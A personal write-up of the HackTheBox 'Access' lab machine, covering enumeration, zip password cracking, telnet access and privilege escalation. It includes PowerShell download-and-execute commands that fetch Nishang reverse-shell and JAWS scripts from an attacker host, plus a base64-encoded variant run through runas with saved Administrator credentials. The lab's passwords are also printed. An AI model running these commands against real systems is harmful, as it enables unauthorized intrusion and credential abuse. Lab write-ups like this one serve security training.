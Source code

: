 2019
### NMAP

```
sudo nmap -sC -sV -oN nmap-access 10.10.10.98
```
### Enumerate for Initial Access

#### telnet 
```
telnet 10.10.10.98
```
#### ftp 
```
ftp 10.10.10.98
```

Download all files
```
wget -m ftp://anonymous:anonymous@10.10.10.98
```

![[HackTheBox/Windows/attachments/Pasted image 20250522195210.png]]
- this failed -> add --no-passive flag

```
wget -m --no-passive ftp://anonymous:anonymous@10.10.10.98
```

Discover password protected zip file called "Access Control.zip" 

Use 7z to get encryption type as AES-256
```
7z l -slt "Access Control.zip"
```

#### zip2john
Use #zip2john to try to crack the password 

```
zip2john Access\ Control.zip > Access\ Control.hash
```

![[HackTheBox/Windows/attachments/Pasted image 20250522195851.png]]

We also discovered a backup.mdb file which is Microsoft Access Database. Use mdbtools.

```
sudo apt install mdbtools
```

Run strings against the file to see that it is not encrypted. 

Run strings to get rid of the items that are not 8 characters

```
strings -n 8 backup.mdb | sort -u > wordlist
```

Use this wordlist to crack the zip file with john..

```
john Access\ Control.hash --wordlist=wordlist
```

![[HackTheBox/Windows/attachments/Pasted image 20250522200514.png]]
- we did crack the zip to be `access4u@security`

Now we can unzip the file. Alternatively....

#### mdb-sql

```
mdb-sql backup.mdb
```
- `list tables`
- `go`

![[HackTheBox/Windows/attachments/Pasted image 20250522212607.png]]
Export the tables with a simple bash for loop 
```
for i in $(mdb-tables backup.mdb); do mdb-export backup.mdb $i > tables/$i; done
```
Resulting tables
![[HackTheBox/Windows/attachments/Pasted image 20250522212945.png]]
Look at the auth_user table and find some passwords (including password to the zip file)
![[HackTheBox/Windows/attachments/Pasted image 20250522213109.png]]

Unzip the file to reveal .pst file..
```
7z x Access\ Control.zip
```

Running file against the filename to discover it's a Microsoft Outlook email folder. 

#### readpst
Convert the .pst file to readable format .mbox 
```
readpst Access\ Control.pst
```

![[HackTheBox/Windows/attachments/Pasted image 20250522213513.png]]

Now we can read the emails. 
![[HackTheBox/Windows/attachments/Pasted image 20250522213556.png]]
- found security account password as 4Cc3ssC0ntr0ller
### Initial Access

#### telnet 
Use found credentials to login to telnet 
```
telnet 10.10.10.98
```

Get a better shell using nishang's Invoke-PowershellTcp.ps1
- change to kali ip and port and serve up .ps1 with python server
- set up nc listener
- return to telnet shell and download the .ps1 

```
powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.10:8000/nishang.ps1')"
```
- catch reverse shell :)
### Enumerate for Priv Esc 

#### JAWS
Execute [JAWS](https://github.com/411Hall/JAWS) script 

```
powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.10:8001/jaws-enum.ps1')"
```

This script found stored creds for ACCESS\Administrator
![[HackTheBox/Windows/attachments/Pasted image 20250522215101.png]]

Find this manually using 
```
cmdkey /list
```

Manually discover a shortcut .lnk file in C:\Users\Public\Desktop. 

Run Get-Content against this file to discover location of the saved cred?

![[HackTheBox/Windows/attachments/Pasted image 20250522215521.png]]

![[HackTheBox/Windows/attachments/Pasted image 20250522215540.png]]

Use powershell to discover info about this shortcut 

```
$WScript = New-Object -ComObject Wscript.Shell
```

```
$shortcut = Get-ChildItem *.lnk
```

![[HackTheBox/Windows/attachments/Pasted image 20250522215837.png]]

Create shortcut with a name that already exists which will print out all the info of existing shortcut 

```
$Wscript.CreateShortcut($shortcut)
```

![[HackTheBox/Windows/attachments/Pasted image 20250522220024.png]]

```
runas /user:Access\Administrator /savecred "whoami > test"
```
- this didn't work

### Priv Esc

Attempt to get a reverse shell.

- Modify Nishang's Invoke-PowershellTcp.ps1 with Kali IP and different port number. 
- Host file using python http server. 
- Set up nc listener on specified port
- Base64 encode command that grabs Nishang payload using Kali terminal

```
echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3:8001/9002.ps1')" | iconv --to-code UTF-16LE | base64 -w 0
```

![[OSCP/attachments/Pasted image 20250523213448.png]]

- Download this encoded string using -EncodedCommand flag in PowerShell and the runas /user functionality in windows
![[HackTheBox/Windows/attachments/Pasted image 20250523213715.png]]

⭐got root⭐